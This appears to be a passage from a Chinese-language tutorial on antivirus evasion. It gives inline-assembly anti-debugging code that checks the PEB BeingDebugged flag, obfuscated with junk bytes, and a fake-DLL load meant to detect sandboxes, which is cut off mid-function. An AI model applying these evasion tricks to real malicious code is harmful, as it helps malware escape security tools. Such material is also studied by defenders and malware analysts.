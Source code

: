 通过上述代码，如果检测到调试器她将一直检测知道堆栈溢出，将触发异常导致进程退出。检测BeingDebuged字节将能绕过大量的杀软，但是还是有一些杀软能够处理这种情况，因此我们需要混淆上述代码。



```
__asm
`{`
CheckDebugger:
PUSH EAX
MOV EAX, DWORD PTR FS : [0x18]
__asm
`{`
PUSH EAX
XOR EAX, EAX
JZ J
__asm __emit(0xea)
J:
POP EAX
`}`
MOV EAX, DWORD PTR[EAX + 0x30]
__asm
`{`
PUSH EAX
XOR EAX, EAX
JZ J2
__asm __emit(0xea)
J2:
POP EAX
`}`
CMP BYTE PTR[EAX + 2], 0
__asm
`{`
PUSH EAX
XOR EAX, EAX
JZ J3
__asm __emit(0xea)
J3:
POP EAX
`}`
JNE CheckDebugger
POP EAX
`}`
```

添加了一些跳转指令不会影响到我们的功能，但是可以混淆代码，避免检测。

**加载假的dll：**

我们将尝试加载一个不存在的dll。正常的话我们将得到的是NULL返回值，但是一些动态分析机制会允许这种情况，为了进一步观察程序的执行情况。



```
bool BypassAV(char const * argv[]) `{`
HINSTANCE DLL = LoadLibrary(TEXT("fake.dll"));
if (DLL != NULL) `{`
BypassAV(argv);
`}`
```
